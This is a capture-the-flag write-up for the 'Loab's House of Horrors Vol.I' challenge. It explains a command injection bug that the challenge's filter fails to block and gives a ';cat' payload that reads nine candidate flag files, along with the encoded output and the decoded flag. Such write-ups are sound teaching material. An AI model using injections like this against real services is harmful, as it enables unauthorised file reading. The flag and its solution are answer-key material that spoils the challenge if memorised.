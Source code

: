 # Loab's House of Horrors Vol.I

## Description:
> It sounds like Loab is back and luring students into their trap. Thankfully Anna managed to rip the source code before Loab left the NJIT network. If we can find the flag we might be able to shut this down!

## Attachment:
### [LoabsHouseOfHorrors.zip](./LoabsHouseOfHorrors.zip)
```
LoabsHouseOfHorrors.zip/
└── files/
    ├── Dockerfile
    └── src/
        ├── flag.txt
        ├── watchdog.py
        └── welcome.py
```

## Solve

There is a command injection vulnerability with this. (The code explicitly tries to prevent it but it doesn't work) The program places the flag in a random one of the following files which all exist:
```
/tmp/singularity
/tmp/abyss
/tmp/.loab
/home/council
/tmp/.boom
/home/victim/.consortium
/usr/bnc/.yummyarbs
/tmp/orphans
/tmp/loab
```

I think the intended solution was to first use a command injection to find where the flag is, and then use another to `cat` it out. I was too lazy for this, and
instead just used the injection
```sh
;cat /tmp/singularity /tmp/abyss /tmp/.loab /home/council /tmp/.boom /home/victim/.consortium /usr/bnc/.yummyarbs /tmp/orphans /tmp/loab
```

The server output
`Ck5JQ0N7SnU1dF9wdTdfbDBAYl8xbl9yYzNfb3JfaDMxMV9pX2d1M3NzfQ==`

which decoded to

`NICC{Ju5t_pu7_l0@b_1n_rc3_or_h311_i_gu3ss}`
